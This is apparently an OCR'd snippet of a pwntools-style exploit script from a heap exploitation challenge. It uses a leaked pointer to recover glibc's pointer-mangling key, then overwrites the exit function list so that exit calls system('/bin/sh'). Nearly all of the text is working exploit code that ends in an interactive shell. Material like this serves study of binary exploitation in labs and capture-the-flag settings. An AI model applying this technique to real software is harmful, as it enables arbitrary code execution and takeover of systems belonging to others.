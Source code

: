 ```

allocate_new_chunk(0x80, 1)
# Get the ptr to initial
allocate_new_chunk(0x80, 3)

# Fill up the data, from the start of our chunk
# To the mangled _dl_fini instruction ptr
edit_chunk(3, b"0"*23)

# Get the leak
# With the mangled _dl_fini ptr, and actual _dl_fini ptr
# Calculate what the key is

key_leak_bytes = view_chunk(3)
mangled_ins_ptr_bytes = key_leak_bytes[24:]
mangled_ins_ptr = u64(mangled_ins_ptr_bytes)

print("dl_fini: " + hex(dl_fini_address))
print("mangled_ins_ptr: " + hex(mangled_ins_ptr))

key = ((shift_right_carry(mangled_ins_ptr, 0x11)) ^ dl_fini_address)

print("Key is: " + hex(key))

# Now that we have the key, calculate what the mangled address of `system` will be
mangled_system_address = mangle_instruction_ptr(system_address, key)

# Now we have everything, make the exit_function / exit_function_list

'''
Next_ptr    0x00
idx       0x01
flavor      0x04
mangled_ins_ptr
binsh_address
dso handle    0x00
'''


exit_function = \
      p64(0x04) + \
      p64(mangled_system_address) + \
      p64(binsh_address) + \
      p64(0x00)

exit_function_list = \
      p64(0x00) + \
      p64(0x01) + \
      exit_function

# Overwrite the existing exit function list with our own
edit_chunk(3, exit_function_list)

# Call system("/bin/sh") via calling exit
secret()

# Enjoy the shell!
target.interactive()
```

